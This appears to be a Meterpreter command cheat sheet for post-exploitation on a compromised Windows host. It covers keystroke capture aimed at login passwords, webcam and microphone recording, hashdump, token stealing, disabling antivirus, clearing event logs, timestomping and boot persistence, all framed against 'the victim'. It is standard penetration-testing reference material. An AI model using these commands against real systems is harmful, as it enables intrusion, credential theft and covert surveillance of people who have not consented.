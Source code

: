 Core Commands
----------------------

    Command                   Description
    -------                   -----------
    ?                         Help menu
    background                Backgrounds the current session
    bgkill                    Kills a background meterpreter script
    bglist                    Lists running background scripts
    bgrun                     Executes a meterpreter script as a background thread
    channel                   Displays information about active channels
    close                     Closes a channel
    disable_unicode_encoding  Disables encoding of unicode strings
    enable_unicode_encoding   Enables encoding of unicode strings
    exit                      Terminate the meterpreter session
    help                      Help menu
    info                      Displays information about a Post module
    interact                  Interacts with a channel
    irb                       Drop into irb scripting mode
    load                      Load one or more meterpreter extensions
    migrate                   Migrate the server to another process
    quit                      Terminate the meterpreter session
    read                      Reads data from a channel
    resource                  Run the commands stored in a file
    run                       Executes a meterpreter script or Post module
    use                       Deprecated alias for 'load'
    write                     Writes data to a channel


Stdapi: File system Commands
----------------------

    Command       Description
    -------       -----------
    cat           Read the contents of a file to the screen
    cd            Change directory
    download      Download a file or directory
    edit          Edit a file
    getlwd        Print local working directory
    getwd         Print working directory
    lcd           Change local working directory
    lpwd          Print local working directory
    ls            List files
    mkdir         Make directory
    mv            Move source to destination
    pwd           Print working directory
    rm            Delete the specified file
    rmdir         Remove directory
    search        Search for files
    upload        Upload a file or directory


Stdapi: Networking Commands
----------------------

    Command       Description
    -------       -----------
    arp           Display the host ARP cache
    getproxy      Display the current proxy configuration
    ifconfig      Display interfaces
    ipconfig      Display interfaces
    netstat       Display the network connections
    portfwd       Forward a local port to a remote service
    route         View and modify the routing table


Stdapi: System Commands
----------------------

    Command       Description
    -------       -----------
    clearev       Clear the event log
    drop_token    Relinquishes any active impersonation token.
    execute       Execute a command
    getenv        Get one or more environment variable values
    getpid        Get the current process identifier
    getprivs      Attempt to enable all privileges available to the current process
    getuid        Get the user that the server is running as
    kill          Terminate a process
    ps            List running processes
    reboot        Reboots the remote computer
    reg           Modify and interact with the remote registry
    rev2self      Calls RevertToSelf() on the remote machine
    shell         Drop into a system command shell
    shutdown      Shuts down the remote computer
    steal_token   Attempts to steal an impersonation token from the target process
    suspend       Suspends or resumes a list of processes
    sysinfo       Gets information about the remote system, such as OS


Stdapi: User interface Commands
----------------------

    Command        Description
    -------        -----------
    enumdesktops   List all accessible desktops and window stations
    getdesktop     Get the current meterpreter desktop
    idletime       Returns the number of seconds the remote user has been idle
    keyscan_dump   Dump the keystroke buffer
    keyscan_start  Start capturing keystrokes
    keyscan_stop   Stop capturing keystrokes
    screenshot     Grab a screenshot of the interactive desktop
    setdesktop     Change the meterpreters current desktop
    uictl          Control some of the user interface components


Stdapi: Webcam Commands
----------------------

    Command        Description
    -------        -----------
    record_mic     Record audio from the default microphone for X seconds
    webcam_list    List webcams
    webcam_snap    Take a snapshot from the specified webcam
    webcam_stream  Play a video stream from the specified webcam


Priv: Elevate Commands
----------------------

    Command       Description
    -------       -----------
    getsystem     Attempt to elevate your privilege to that of local system.


Priv: Password database Commands
----------------------

    Command       Description
    -------       -----------
    hashdump      Dumps the contents of the SAM database


Priv: Timestomp Commands
----------------------

    Command       Description
    -------       -----------
    timestomp     Manipulate file MACE attributes



Run Command Examples
-------------------
    Command            Description
    -------            -----------
    run vnc            Start the VNC script included with meterpreter to get an 
                       interactive VNC session on the target.
    run keylogrecorder Log all the keystrokes on the victim. For best results,
                       make sure you are running in explorer.exe. To capture
                       login passwords, run this whilst within winlogon.exe.
    run checkvm        See if the victim is running within a virtual machine.
    run winenum        Retrieve info about the Windows machine such as 
                       environment variables, user accounts, groups,
                       interfaces, routes, etc.
    run scraper        Downloads detailed system information such as password
                       hashes, network shares, registry hives.
    run getcountermeasures Checks the security settings on the victim and 
                           can disable certain countermeasures.
    run killav         Disable any AntiVirus processes running on the 
                       target system if possible.

Other Command Examples
--------------------------
    Command              Description
    -------              -----------
    steal_token 456      Need to load incognito into meterpreter using
                         "use incognito" prior to using this. Steals tokens from
                         the specified process to try impersonate an account. 
                         Check your UID afterwards even if there is an
                         error as it may have still worked.

    route add 192.168.1.0 | Route all traffic destined to 192.168.1.0/24 
    255.255.255.0 3       | though session 3.
 	 
    load auto_add_route  Automatically issue additional route commands
                         for any previously unseen subnets whenever a
                         new session is opened. So does the above command
                         automatically basically for new discovered subnets.
    
    route print          Print the current routing table (subnet, netmask, 
                         and associated exploit session that the traffic will
                         be routed through).

    run persistence    | Install a script onto the victim machine 
    -X *options*       | that will automatically return a meterpreter
                       | shell every time the computer starts.
                                 
                                  

